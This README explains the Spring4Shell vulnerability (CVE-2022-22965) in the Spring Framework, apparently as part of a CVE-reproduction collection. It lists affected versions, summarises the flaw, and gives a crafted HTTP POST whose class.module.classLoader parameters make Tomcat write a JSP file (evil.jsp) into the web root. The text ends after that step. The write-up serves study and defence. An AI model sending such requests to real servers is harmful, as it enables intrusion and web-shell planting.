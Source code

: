 # CVE Reproduce: Spring4Shell (CVE-2022-22965)

### Details

CVE ID: <br>
**CVE-2022-22965**

Vulnerability Name: <br>
**Spring4Shell**

Vulnerable Software: <br>
- **Spring Framework (versions 5.3.0 – 5.3.17 and 5.2.0 – 5.2.19)**
- **Typically exploitable on applications running Spring MVC or Spring WebFlux with JDK 9 or later**

Vulnerability Type: <br>
**Remote Code Execution (via unsafe data binding)**

Severity: <br>
- **9.8 CVSS v3 (Critical), 7.5 CVSS v2 (High)**

---

### Summary

Spring4Shell is a critical vulnerability in the popular **Spring Framework** for Java, widely used to build enterprise-level web applications. It was discovered in March 2022 and quickly drew comparisons to Log4Shell due to its widespread impact and ease of exploitation.

The vulnerability arises from the way Spring handles data binding in web requests. By manipulating request parameters, an attacker can bypass restrictions and write malicious values into sensitive internal fields. When combined with a Tomcat deployment scenario, attackers can overwrite logging configuration files (such as webapps/ROOT/WEB-INF/web.xml or Tomcat’s logging properties), eventually leading to remote code execution.

Because Spring is so widely adopted, the vulnerability posed a severe risk across countless Java-based services exposed to the internet.

---

### Example of the Vulnerability

1. A web application running on a vulnerable version of Spring Framework (with Tomcat and JDK 9+).
   
2. Attacker sends a specially crafted HTTP POST request with malicious form parameters. For instance:
   ```http
   POST /app/endpoint HTTP/1.1
   Host: vulnerable-app.com
   Content-Type: application/x-www-form-urlencoded

   class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i
   class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
   class.module.classLoader.resources.context.parent.pipeline.first.directory=/webapps/ROOT/
   class.module.classLoader.resources.context.parent.pipeline.first.prefix=evil
   class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
   ```
   - This payload abuses Spring’s data binding feature to manipulate internal Tomcat logging objects.
   - It instructs Tomcat to write logs into a JSP file (`evil.jsp`).
  